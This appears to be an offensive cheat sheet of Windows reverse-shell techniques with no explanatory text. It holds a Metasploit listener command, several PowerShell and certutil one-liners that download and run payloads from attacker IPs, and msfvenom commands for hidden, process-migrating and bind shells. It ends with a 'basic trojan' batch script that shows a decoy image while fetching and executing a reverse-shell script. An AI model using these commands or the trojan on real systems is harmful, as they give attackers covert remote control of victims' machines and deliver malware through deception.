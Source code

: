 
common metasploit listener:
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT <PORT>; set ExitOnSession false; exploit -j"
```



using powercat:
```bash
attacker machine:

where powercat installed:
python3 -m http.server 9090

start netcat listener:
nc -nvlp 1234


target machine:
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.120:9090/powercat.ps1');powercat -c 192.168.1.120 -p 1234 -e cmd"
```


using batch file:
```bash
attacker machine:

msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat
python3 -m http.server 9090

msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.104 lport=4444 –f exe > shell.exe


nc -nvlp 4444

target systm:
Invoke-WebRequest -Uri "http://192.168.1.120:9090/shell.bat" -OutFile "$env:TEMP\shell.bat"; Start-Process "$env:TEMP\shell.bat" -WindowStyle Hidden

```

using certutil.exe :
```bash
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```


Msiexec.exe:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi
```



Hidden bind shell:
```bash
msfvenom -p windows/shell_hidden_bind_tcp ahost=192.168.0.107 lport=1010 -f exe > /root/Desktop/hidden.exe
```



get tty windows shell:
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/shell.ps1')"
```


having cmd shell upgrade tty shell:
```bash
powershell.exe -NoLogo -NoExit -Command "$Host.UI.RawUI.WindowTitle = 'Upgraded Shell';"
```

Hiding Shell with Prepend Migrate using Msfvenom:

```bash
#this shell migrate between processes.
msfvenom –p windows/meterpreter/reverse_tcp lhost=192.168.1.104 lport=5555 prependmigrate=true prepenmigrateprocess=explorer.exe –f exe > /root/Desktop/raj.exe

```




powershell:
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.63.128 lport=3434 > reverse.bat 
```
https://www.hackingarticles.in/powershell-for-pentester-windows-reverse-shell/


Basic trojan:
```bash
@echo off

set "url1=https://prod-ripcut-delivery.disney-plus.net/v1/variant/disney/9B368B465A4DC909CDB6E799ACB64899B54E731B6D894FA5B080D75DB2F30533/scale?aspectRatio=1.78^&format=jpeg"
set "url2=http://192.168.63.128:8081/reverse.bat"

powershell -NoProfile -Command ^
"$urls = @('%url1%', '%url2%'); ^
foreach ($url in $urls) { ^
  $fn = Join-Path $env:TEMP ([System.IO.Path]::GetFileName($url).Split('?')[0]); ^
  try { Invoke-WebRequest -Uri $url -OutFile $fn -UseBasicParsing } catch { Write-Host 'Download failed for' $url; continue }; ^
  if (Test-Path $fn) { ^
    if ($fn -match '\.jpg$') { Start-Process mspaint.exe $fn } else { Start-Process $fn } ^
  } else { Write-Host 'File not found after download:' $fn } ^
}"
```

